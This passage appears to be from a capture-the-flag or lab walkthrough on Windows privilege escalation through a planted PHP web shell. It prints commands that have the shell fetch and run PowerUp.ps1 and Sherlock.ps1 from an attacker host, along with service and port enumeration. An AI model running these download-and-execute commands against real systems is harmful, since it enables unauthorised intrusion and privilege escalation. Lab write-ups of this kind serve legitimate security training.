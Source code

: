     10.10.10.9/ippsec.php?fexec=echo "IEX(New-Object Net.WebClient)DownloadString('http://10.10.15.1:8000/PowerUp.ps1') | powershell -noprofile -

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557222984811_image.png)

*the piping is performed to get execution.*
(results after a bit of time)

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557223368493_image.png)

*we get an unquoted service denied which can be tested with*

    10.10.10.9/ippsec.php?fexec=sc query state= all

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557223491232_image.png)

*once we privesc we’ll run this command again and see if we can access.*

In this situation as well we can not  “Checking service executable and argument permissions” - Start/Stop a service (second check)

Unable to “Check service permissions…” - if we could overwrite the permissions of a server.

We have the ability to “potientally “takeover” DLL locations…”

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557223813932_image.png)

*which we would have the ability to take over Oracle files, meaning if we could restart oracle we could get code execution.*

Check for if oracle is running

    10.10.10.9/ippsec.php?fexec=netstat -an

*we see MySQL is running on port 3306, don’t see oracle which is normally like 1521 and this point we can skip this avenue.*

Continue analyzing the PowerUp.ps1:

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557224122299_image.png)

*The rest of the report doesn’t lead to a way to escalation. Another script that is really liked is “Sherlock.ps1”* 

Copy Sherlock.ps1 to working directory:

Manage Unicode

    dose2unix Sherlock.ps1

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557224312191_image.png)

Edit “Sherlock.ps1” to inlude “Find-AllVulns” at the bottom of the script.

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557224391727_image.png)

upload “Sherlock.ps1” to target

    10.10.10.9/ippsec.php?fexec=echo "IEX(New-Object Net.WebClient)DownloadString('http://10.10.15.1:8000/Sherlock.ps1') | powershell -noprofile -

